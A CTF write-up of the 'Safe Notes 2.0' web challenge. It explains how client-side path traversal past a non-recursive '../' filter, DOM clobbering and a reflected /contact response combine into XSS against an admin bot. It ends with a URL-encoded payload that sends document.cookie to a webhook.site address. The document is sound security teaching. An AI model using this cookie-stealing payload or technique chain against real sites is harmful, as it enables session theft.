



# 1337UP CTF 2024

| Name   | Safe Notes 2.0 |
| ---- | ---- | 
| Category | Web |
| Author | cryptocat |
| Attachments | [dist.zip](./dist/src/main.rs) |
| Tags | XSS, DOM Clobbering, CSPT |

## Fun facts/Ground Rules

This is an upsolve. I have never really done web exploitation before. However, I did actually play in this competition over 2 years ago. I remember doing a lot of the crypto and misc challenges. 

This writeup is meant for teaching others (and my future self who forgot what he did) how each of the vulnerabilities involved work.

## Challenge Overview

The challenge is webapp where users can create and share notes with each other. The reasoning behind "2.0" in the "Safe Notes 2.0" is because it imitates the fictional scenario of a developer "fixing" vulnerabilities in their web application after a security review.

The obvious caveat is that besides the dozens of passive aggressive comments sprinkled throughout the code, some bugs still remained.

## Inspecting the code

It's a huge web app, and so I'm gonna refrain from copy pasting large chunks of code, and try to summarize and quote instead.

It's a flask app using a templating engine. 

Each of these endpoints use CSRF (Cross-Site Request Forgery) Tokens. The TL;DR is that it's difficult/annoying to talk to these APIs directly. (it is however still possible!)

Relevant endpoints:
- `/create` and `/api/notes/store`: endpoints that handle creating/storing our notes.
- `view` and `/api/notes/fetch/<note-id>`: The frontend and the API endpoints to view existing notes.
- `/contact`: A very interesting endpoint that is just a contact form which we will exploit later.
- `/api/notes/log/<username>`: a POST endpoint that creates a log entry in an audit log when a note is accessed by a user.
- `/report`: Our main path to interact with an admin bot that visits any note that we report.


The Admin Bot was a separate service: It simply visited the website (with puppeteer) and slept for 500ms before returning. A samesite cookie containing the FLAG was also set at this point.

This is very clear indication that the goal of this channel is to leverage Cross-Site Scripting (XSS) in order to exfiltrate the flag cookie. Recall, that we don't actually know what the admin sees. 

## Vulnerability 1: Client-Side Path Traversal (CSPT)

Client-Side Path Traversal refers to the act of modifying the destination of a HTTP request by messing the URI path. For example: You have an endpoint as follows `https://example.org/dashboard/self/secrets/<secret-id>` that you can POST secret notes to that only you can see. If I set `secret-id=../../hacker/secrets/foo`. A POST request is made to `https://example.org/dashboard/self/secrets/../../hacker/secrets/foo` which undergoes URL path normalization to become `https://example.org/dashboard/hacker/secrets/foo`. OH NO, you've accidentally posted your secrets to the hackers page instead!!!

Now, I was skimming through the code and noticed that there was a few instances where there was an attempt made to block any of this Path Traversals by checking for "`../`" in your note ids and usernames. 

The issue is that the fix was to a find and replace (that's not recursive):

```js
const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');
```

The issue here is that if my username was `"....//hiswui"`,  It would become `"../hiswui"`. So, we still might have a path traversal bug because the "fix" was poorly implemented.

(aside: I can never find myself trusting regex. It's dark magic I say.)

Now, to get CSPT, we just need to find a HTTP request to exploit it with!

Assuming I can set my username arbitrarily, each time someone views a note on the `/view` endpoint. We have a piece of code that logs this action.


```js

    function logNoteAccess(noteId, content) {
        // Read the current username, maybe we need to ban them?
        const currentUsername = document.getElementById("username").innerText;
        const username = currentUsername || urlParams.get("name");

        // Just in case, it seems like people can do anything with the client-side!!
        const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');

        fetch("/api/notes/log/" + sanitizedUsername, {
            method: "POST",
            headers: {
                "Content-Type": "application/json",
                "X-CSRFToken": csrf_token,
            },
            body: JSON.stringify({
                name: username,
                note_id: noteId,
                content: content
            }),
        })
            .then(response => response.json())
            .then(data => {
                // Does the log entry data look OK?
                document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
                document.getElementById("debug-content-section").style.display = "block";
            })
            .catch(error => console.error("Logging failed:", error));

    }

```

I'm sure you understand what I mean by passive aggressive comments now lol...

Take a closer look at the `fetch`, we're POSTing data to an endpoint and we have a way to arbitrarily change the request URL path. Let's call this our CSPT primitive/gadget.

To conclude, if we can control someone's username, we can control the request URL path. Great! How the heck do we even do that????
 
### Aside Gadgets and Primitives

I'm not sure what the technical difference between a gadget and primitive is. However, I _can_ tell you that a lot of challenges are solved by chaining together seemingly "unrelated" attacks together. This challenge is an example of one. It's a good idea to write down ANYTHING useful you see while scanning through an application since it could prove helpful down the line. 

## Vulnerability 1.5(?): The Ideal World

We left off the last Vulnerability with some idea of a potential path but we haven't fleshed it out yet. We're still missing how to actually change the admin Bot's `username` (it's not even logged in!!). 

However, as an exercise, let's assume we live in an ideal world where I do indeed control the admin bot's `username`. What would I do then? This is a generally helpful philosophy that has avoided getting me stuck in death spirals of thought and doom.


In our ideal world, I can only send a POST request to a couple of endpoints on the site. However, one of them struck me as a bit interesting. 

`/contact`. Take a look at the code.

```py
# People were exploiting an open redirect here, should be secure now!
@main.route('/contact', methods=['GET', 'POST'])
def contact():
    form = ContactForm()
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
            username = data.get('name')
            content = data.get('content')

            if not username or not content:
                return jsonify({"message": "Please provide both your name and message."}), 400

            return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200

        username = request.form.get('name')
        content = request.form.get('content')

        if not username or not content:
            flash('Please provide both your name and message.', 'danger')
            return redirect(url_for('main.contact'))

        return render_template('contact.html', form=form, msg=f'Thank you for your message, {username}. We will be in touch!')

    return render_template('contact.html', form=form, msg='Feel free to reach out to us using the form below. We would love to hear from you!')
```

Besides another sassy comment, notice that a successful call returns the `username` back in the JSON response. (The input payload structure also closely resembles what we have in our fetch request!)

But you might be wondering, do we even get to see the response data printed anywhere on the website?

Good News: The javascript code from earlier says that the response data is written as `outerHTML` to an element with ID `debug-content`.

Bad News: The `debug-content` element is commented out :c

```html
<!-- Remember to comment this out when not debugging!! -->
<!-- <div id="debug-content-section" style="display:none;" class="note-panel">
    <h3>Debug Information</h3>
    <div id="debug-content" class="note-content"></div>
</div> -->
```

But, the `outerHTML` attribute being changed implies that this can potentially be a great location to put our XSS payload. 

Our ideal world now has two wishes:
- figure out how to set an arbitrary `username`
- find a way to uncomment those lines above to display our response data


Before, I continue. I acknowledge that there are some questions you may have about the more Obvious ways we could do things.

## Why the obvious things failed... (aka DOMPurify and Friends)

**Q:** If the goal is XSS why didn't you just make the admin bot visit a note with bad HTML that contains an XSS payload

**A:** The contents of each notes are sanitized by the `DOMPurify` library before being created and/or displayed. `DOMPurify` is a javascript library meant to prevent XSS attacks by removing any malicious code/html tags. 

Fun fact: I did realize that on note creation. All the sanitization on the contents of the note is done on the client-side before a POST request to `/api/notes/store`. Hence, you can technically send a request directly to send your raw, unsanitized content directly to the API. 

This would have entirely solved our problem. However, the webapp also sanitizes *before* displaying the contents of the note in the `/view`. So, that sucks.

It means that we can't use the contents our notes to get our XSS payload through. However, the `outerHTML` attribute is very valuable and would solve our problems if we figure out how to achieve our ideal world


**Q:** What can the admin bot even visit? Can it be a different website?
**A:** No. It can only visit paths on the same website/domain on HTTP. In fact, it can only visit the `/view` endpoint. 


## Vulnerability 2: DOM Clobbering and Reaching our Ideal World

DOM Clobbering refers to the act of modifying the HTML contents/structure of the webpage to create an unintended effect. I know the definition is very generic.


`DOMPurify` from earlier may remove any of our `script` tags or malicious payloads. But I wonder if I can still insert other HTML code in my notes and have them render correctly?





The answer is yes!


Great. Currently, `document.getElementById("debug-content")` evaluates to `null`. I wonder, if we copy paste the commented code (without the comments) into our Notes content, we will something interesting. 

Alright less thinking more just messing around and finding out!



Wow, that just works :tm: :D

Alright, we have ticked one item from our "Ideal world" checklist. All that's left is to change the username.

But wait a minute....

```js
const currentUsername = document.getElementById("username").innerText;
const username = currentUsername || urlParams.get("name");
```


Could we also use the same trick to control our username? Yes! Will we use it? No (sorta)!

The default username is `Anonymouse`. So, that OR block in the second line above never gets triggered for the admin bot. 

Recall, that we decided that our XSS payload will be a part of the `username` because the `/contact` endpoint prints it back to us. At the same time, this is bad because if we add an XSS payload to our note content, `DOMPurify` will destroy it with no mercy.

A workaround is to insert an element. 

```html
<div id="username"`></div>
```

The lucky part is that the actual `username` field is deeper than this element, which means that `document.getElementById("username")` will return OUR element instead. The `innerText` for this is null. This means that our username defaults to the `name` URL parameter. 

Great, we can now control the username. We have our ideal world!!

## Put this all together (+ extras)

There's quite a bit I left out. Partially because it's boring and there's no value in discussing smaller vulnerabilities like `/report` not properly verifying the provided note ID correctly. 

Okay, next to perform the XSS. We usually make the admin bot fetch an attacker-controlled website with the cookie in the URL path (to bypass samesite cookies). Something like `https://webhook.site/<uuid>/${document.cookie}`.

Notes Content:

```
 <div id="debug-content-section" style="display:none;" class="note-panel">
    <h3>Debug Information</h3>
    <div id="debug-content" class="note-content"></div>
</div> 
<div id="username"></div>
```


(decoded) XSS payload:
```
....//....//....//contact?fuck=
```


Final payload (URL encoded): The one we report to the bot

```
http://127.0.0.1/view?name=%2E%2E%2E%2E//%2E%2E%2E%2E//%2E%2E%2E%2E//contact?fuck=%3Cimg%20src=x%20onerror=fetch(%60https://webhook%2Esite/621cac22%2Da9e8%2D4ad1%2Db343%2Dce398f8c34a4/$%7Bdocument%2Ecookie%7D%60,%7Bmode:%60no%2Dcors%60%7D)%3E&note=3983979c-95c6-4928-8886-bcad7dccbc6c
```


Yippee flage!


## Thoughts

web is hard and long. It took me very long to understand and even come up with the solve path. It required a lot of chaining and a lot of blind faith in the process. In this writeup, I describe this faith as the "Ideal world". I found it interesting that this methodology of thinking proved extremely useful because I solved my first problem (controlling usernames) AFTER I solved my second problem (displaying the responses).

Overall, it's quite exciting to do web and I can't wait to upsolve more!!
